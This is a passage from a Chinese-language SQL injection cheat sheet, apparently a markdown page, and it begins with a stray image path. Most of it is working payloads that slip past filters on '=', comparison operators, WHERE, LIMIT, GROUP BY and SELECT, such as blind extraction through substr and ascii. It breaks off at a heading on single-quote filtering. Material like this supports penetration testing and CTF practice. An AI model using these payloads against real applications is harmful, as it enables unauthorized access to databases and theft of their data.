 

#### 过滤=

```sql
?id=1' or 1 like 1#可以绕过对 = > 等过滤
or '1' IN ('1234')#可以替代=
```



#### 过滤比较符`<>`

```sql
select*fromuserswhereid=1and ascii(substr(database(),0,1))>64

select*fromuserswhereid=1and greatest(ascii(substr(database(),0,1)),64)=64
```



#### 过滤where

```sql
逻辑绕过
过滤代码 1 && (select user from users where user_id = 1) = 'admin'
绕过方式 1 && (select user from users limit 1) = 'admin'
```



#### 过滤limit

```sql
逻辑绕过
过滤代码 1 && (select user from users limit 1) = 'admin'
绕过方式 1 && (select user from users group by user_id having user_id = 1) = 'admin'#user_id聚合中user_id为1的user为admin
```



#### 过滤group by

```sql
逻辑绕过
过滤代码 1 && (select user from users group by user_id having user_id = 1) = 'admin'
绕过方式 1 && (select substr(group_concat(user_id),1,1) user from users ) = 1
```



#### 过滤select

```sql
逻辑绕过
过滤代码 1 && (select substr(group_concat(user_id),1,1) user from users ) = 1
绕过方式 1 && substr(user,1,1) = 'a'
```



#### 过滤’(单引号)
